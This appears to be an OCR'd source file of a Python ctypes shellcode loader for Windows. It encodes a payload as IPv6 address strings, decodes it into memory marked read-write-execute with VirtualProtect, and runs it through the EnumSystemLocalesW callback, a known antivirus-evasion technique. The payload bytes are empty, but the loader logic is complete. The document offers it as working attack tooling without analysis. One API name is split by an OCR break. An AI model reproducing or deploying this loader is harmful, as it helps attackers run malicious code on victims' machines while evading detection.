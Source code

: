 ```python
# -*-coding:utf-8 -*-
"""
The ctypes library is a module in Python that calls the system dynamic link library functions. The ctypes library can use the C language dynamic link library and pass functions to it.
IPv6 memory loading
"""
import ctypes

shellcode = b''
if len(shellcode) % 16 != 0:
    null_byte = b'\x00' * (16 - len(shellcode) % 16)
    shellcode += null_byte

ctypes.windll.Activeds.AllocADsMem.restype = ctypes.c_uint64
ptr_alloc_1 = ctypes.windll.Activeds.AllocADsM
em(ctypes.c_int(len(shellcode) // 16 * 40))
ptr_realloc_1 = ctypes.windll.Activeds.ReallocADsMem(ptr_alloc_1, len(shellcode) // 16 * 40, len(shellcode) // 16 * 40)
ctypes.windll.kernel32.VirtualProtect(ptr_realloc_1, ctypes.c_int(len(shellcode) // 16 * 40), 0x40, ctypes.byref(ctypes.c_long(1)))

for i in range(len(shellcode) // 16):
    bytes_shellcode = shellcode[i * 16: 16 + i * 16]
    ctypes.windll.Ntdll.RtlIpv6AddressToStringA(bytes_shellcode, ptr_realloc_1 + i * 40)

ipv6_list = []
for i in range(len(shellcode) // 16):
    ipv6 = ctypes.string_at(ptr_realloc_1 + i * 40, 40)
    ipv6_list.append(ipv6)
print(ipv6_list)

ptr_alloc_2 = ctypes.windll.Activeds.AllocADsMem(ctypes.c_int(len(shellcode)))
ptr_realloc_2 = ctypes.windll.Activeds.ReallocADsMem(ptr_alloc_1, len(shellcode), len(shellcode))
ctypes.windll.kernel32.VirtualProtect(ptr_realloc_2, ctypes.c_int(len(shellcode)), 0x40, ctypes.byref(ctypes.c_long(1)))

rwxpage = ptr_realloc_2
for i in range(len(ipv6_list)):
    ctypes.windll.Ntdll.RtlIpv6StringToAddressA(ipv6_list[i], ipv6_list[i], rwxpage)
    rwxpage += 16

ctypes.windll.kernel32.EnumSystemLocalesW(ptr_realloc_2, 0)
```
